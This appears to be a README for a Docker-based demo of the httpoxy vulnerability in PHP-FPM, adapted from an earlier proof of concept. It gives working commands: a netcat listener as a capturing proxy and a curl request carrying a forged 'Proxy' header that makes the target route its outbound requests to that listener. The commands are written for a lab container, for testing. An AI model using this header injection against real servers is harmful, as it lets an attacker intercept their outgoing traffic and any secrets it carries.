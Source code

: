 # httpoxy-vuln

Completely and utterly stolen from [php-fpm-httpoxy-poc](https://github.com/httpoxy/php-fpm-httpoxy-poc), however that proof of concept doesn't work out of the box and bending it to a testing end seemed all together decent.

## Steps

This is how the vulnerability works:

1. Send a header with 'Proxy: yourproxyserver:port'
2. notice a request is routed to your proxy
3. take notice in your proxy server

## Using this demo

Here is how you can see it in action:

1. rebuild and run the whole docker thing

    ```
    ./rebuild.sh
    ```

2. Start some sort of capturing proxy:

    `nc -l 12345`

4. to to test a docker container running at 192.168.99.100, out to a proxy running at 192.168.0.6.12345...


    ```sh
    curl -H 'Proxy: 192.168.0.6:12345' 192.168.99.100
    ```



